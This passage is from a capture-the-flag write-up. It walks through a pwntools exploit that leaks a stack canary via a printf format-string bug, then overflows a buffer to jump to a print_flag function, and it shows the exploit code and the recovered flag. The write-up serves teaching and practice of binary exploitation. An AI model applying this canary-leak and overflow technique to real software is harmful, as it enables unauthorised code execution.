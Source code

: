 ```python
recv = p.recv()
recv = recv.split(b',')[0].lstrip(b' ').rstrip(b'\x01')
canary =  int.from_bytes(recv, byteorder='little')
canary = hex(canary) + '00'
canary = int(canary, 16)
print(recv)
print(f'Canary (int) {canary}, (hex) {hex(canary)}')
```
In the above script, we set up some basic pwntools functionality and setup some simple gdbscript to start debugging. Then we pass in our data to abuse the `printf` and then receive and process our leak. We also need to remember to account for the null byte in the canary! From here, our exploit should be simple.

All we need to do is pass in junk up to the canary, which we know is 72 bytes (remember, we needed 69 bytes of junk plus 3 bytes for the "i'm" string), our canary we leaked, 8 bytes of junk for `rbp`, and then the address of our print_flag function. This can all be achieved pretty easily with pwntools, as seen below. 

```python
payload = flat([
    'a' * 72,
    canary,
    b'a' * 8,
    elf.symbols['print_flag']
])
p.sendline(payload)
p.sendline(b'bye')

p.interactive()
# lactf{so_untrue_ei2p1wfwh9np2gg6}
```
And just for fun (and because its always super cool) we can see our payload laid out on the stack within gdb before the main function cleans up the stack and returns. 
